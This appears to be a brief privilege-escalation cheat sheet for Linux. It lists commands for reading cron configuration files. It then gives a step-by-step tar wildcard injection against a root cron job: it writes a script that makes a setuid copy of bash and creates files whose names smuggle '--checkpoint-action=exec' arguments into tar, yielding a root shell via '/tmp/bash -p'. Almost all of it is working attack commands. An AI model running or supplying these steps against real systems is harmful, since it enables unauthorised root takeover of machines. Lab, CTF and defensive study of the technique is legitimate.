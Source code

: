 ```sh
# Cron jobs
cat /etc/cron*
cat /etc/crontab
cat /etc/cron.d/*
cat /etc/cron.daily/*
cat /etc/cron.hourly/*
cat /etc/cron.monthly/*
cat /etc/cron.weekly/*
cat /var/spool/cron/*
cat /var/spool/cron/crontabs/*
# List all cron jobs
crontab -l
crontab -l -u username
```

# compress **everything** wildcard

`*/2 * * * * root cd /home/andre/backup && tar -zcf /tmp/andre_backup.tar.gz *`

The cron job uses `*` (wildcard), meaning **anything inside the folder** will be included — **even files with weird or dangerous names**.
### Steps
1. **create a payload**
`echo "cp /bin/bash /tmp/bash; chmod +s /tmp/bash" > /home/andre/backup/exploit.sh`
2. **Use `chmod +s` to give it the setuid bit**
3. **Abuse `tar` with Filename Tricks**
	`tar` has a feature:
	- `--checkpoint`: tells `tar` to do something after copying a certain number of files
	- `--checkpoint-action`: tells `tar` **what to do** at each checkpoint
```
touch /home/andre/backup/--checkpoint=1
touch /home/andre/backup/--checkpoint-action=exec=sh\ exploit.sh
```
	So it becomes:
	`tar -zcf /tmp/andre_backup.tar.gz --checkpoint=1 --checkpoint-action=exec=sh exploit.sh ...`
4. **wait for cron to run** 
5. Now, just run:
```
/tmp/bash -p
```
- `-p`: tells bash to **preserve privileges**
- You now have a root shell!